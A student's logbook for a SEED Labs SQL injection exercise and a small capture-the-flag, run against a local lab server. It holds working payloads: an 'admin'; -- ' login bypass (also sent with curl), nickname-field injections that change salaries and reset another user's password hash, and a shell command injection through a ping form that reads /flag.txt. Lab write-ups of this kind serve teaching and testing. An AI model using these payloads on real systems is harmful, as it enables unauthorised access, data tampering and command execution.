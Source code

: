 # Week 8 Logbook

#### Preparation Steps

* Add the following line to `/etc/hosts`
    `10.9.0.5 www.seed-server.com`

## Task 1

```sh
[11/30/21]seed@VM:~/.../lab8$ docksh mysql-10.9.0.6
root@6e2b985ea2e6:/# mysql -u root -pdees
[...]
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 10
Server version: 8.0.22 MySQL Community Server - GPL
[...]
mysql> use sqllab_users;
[...]
Database changed
mysql> SELECT * FROM credential WHERE name="Alice";
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
| ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
|  1 | Alice | 10000 |  20000 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
1 row in set (0.00 sec)
mysql> 
```

## Task 2
### Task 2.1

* Username: `admin'; -- `
* Password: (empty)

Resulting SQL statement:
```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= 'admin'; -- and Password=''
```

**Website Screenshot**

![Task 2.1 Screenshot](https://i.imgur.com/M4SIWoB.png)

### Task 2.2

```sh
curl 'www.seed-server.com/unsafe_home.php?username=admin%27;%20--%20&Password='
```

### Task 2.3

A special flag is required for MySQL to accept queries with multiple SQL statements.

> The API functions mysqli::query and mysqli::real_query do not set a connection flag necessary for activating multi queries in the server. An extra API call is used for multiple statements to reduce the damage of accidental SQL injection attacks. An attacker may try to add statements such as ; DROP DATABASE mysql or ; SELECT SLEEP(999). If the attacker succeeds in adding SQL to the statement string but mysqli::multi_query is not used, the server will not execute the injected and malicious SQL statement.

**Sources**
* https://dev.mysql.com/doc/apis-php/en/apis-php-mysqli.quickstart.multiple-statement.html
* https://dev.mysql.com/doc/c-api/5.7/en/c-api-multiple-queries.html

## Task 3
### Task 3.1

We wrote `Alice', salary=1000000 WHERE name="Alice"; -- ` in the **Nickname** field, and all other fields were left empty.

The resulting SQL query is:
```sql
UPDATE credential SET nickname='Alice', salary=1000000 WHERE name="Alice"; -- , email='', address='', Password='', PhoneNumber='' WHERE ID=$id;
```

### Task 3.2

Write `', salary=1 WHERE name="Boby"; -- ` in the **Nickname** field, all other fields are left empty.

**Website Screenshot**

![Task 3.2 Screenshot](https://i.imgur.com/TZWoUPb.png)

### Task 3.3


The SHA1 hash of the string `alice-was-here` is `835247a232a37bacf18189b69430984c76752cca`.

We used Alice's edit form, and wrote `',password='835247a232a37bacf18189b69430984c76752cca' WHERE name="Boby"; -- ` in the nickname field, and left all other fields empty.

We managed to log in to Boby's account using the new password.

![Task 3.3 Screenshot](https://i.imgur.com/1LEPJeb.png)

## CTF - Task 1

### Tasks

* Is there a vulnerability that lets you bypass login without knowing user credentials?
    * SQL Injection.
* Analyze the source code and try to identify if the mentioned vulnerability exists.
    * The SQL query for the login is built directly from the username and password provided by the user (instead of using a prepared statement).
* Identify the lines where the vulnerability is present.
    * Lines 40-42.
* Explore the vulnerability and login as `admin`.
    * Use the string `admin'; -- ` as username and enter an arbitrary value in the password field.

## CTF - Task 2

### Tasks

* What functionalities are available to an unauthenticated user?
    * An unauthenticated user can perform a 'speedtest' and can specify a hostname to ping.
* From the usage of those functionalities, how do you think they are implemented? Are they using any Linux utils?
    * The 'speedtest' appears to simply redirect the user to a predefined static page.
    * When pinging a hostname, the output is exactly the same as the one given by the `ping` command, so the website is probably passing user input to the `ping` command, running it in a shell and sending the output back to the user.
* In that case, what vulnerabilities could be present when calling that Linux util?
    * A shell injection vulnerability could be present if the user input isn't being properly handled.
* Is there any vulnerability in this functionality?
    * There is a shell injection vulnerability, as confirmed by inputting: `127.0.0.1; echo "Hello World";` in the *host* field. The `Hello World` message is printed, which means the `echo` command executed successfully.
* How can you exploit this vulnerability to obtain the flag, which is present in the `/flag.txt` file?
    * Using `127.0.0.1; cat /flag.txt;` as the input for the *host* field prints the contents of the `flag.txt` file.
